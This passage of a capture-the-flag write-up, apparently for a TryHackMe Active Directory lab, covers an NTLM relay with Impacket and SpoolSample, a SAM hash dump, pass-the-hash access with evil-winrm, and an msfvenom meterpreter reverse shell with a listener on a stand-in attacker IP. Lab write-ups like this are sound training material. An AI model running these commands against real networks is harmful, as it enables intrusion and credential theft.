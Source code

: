 We can see from the output that SMB Message signing is enabled but not required. That is good news for us. From our attacking machine, we need to use `Impacket` to set up the NTLM relay like so:

```bash
$ impacket-ntlmrelayx -smb2support -t smb://10.200.79.201 -debug 
# 10.200.79.201 is the IP of THMSERVER1 in my case
```

On our victim machine, we can run the command:

```powershell
$ cd C:\Tools
$ SpoolSample.exe THMSERVER2.za.tryhackme.loc ATTACKER_IP
```

From our incoming connection we get the SAM hashes dumped. This one seems most interesting:

```
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
```

We can use this hash to connect using `evil-winrm`:

```bash
$ evil-winrm -u ServerAdmin -H 3279a0c6dfe15dc3fb6e9c26dd9b066c -i 10.200.79.201
# 10.200.79.201 is the IP of THMSERVER1 in my case
```

We can get the flag located at `C:\Users\Administrator.ZA\Desktop\flag3.txt`

### Task 5

With the same `evil-winrm` session, we can complete this task.

We need to enumerate the user directories and find a `.kdbx` file. We eventually find the file `PasswordDatabase.kdbx` in `C:\Users\trevor.local\Documents`.

We can transfer this file by establishing a meterpreter shell to this machine.

To do this, on our attacking machine, we can run `msfvenom` to generate the payload for our reverse shell:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER:IP LPORT=443 -f psh -o shell.ps1
```

We should also set up a listener using `msfconsole`:

```bash
$ sudo msfconsole
> use exploit/multi/handler
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST ATTACKER_IP
> set LPORT 443
> exploit
```

We will move the meterpreter shell to the victim pc.

* On your attacking machine host a Python webserver where the `shell.ps1` file is located:
	* `python3 -m http.server 80`
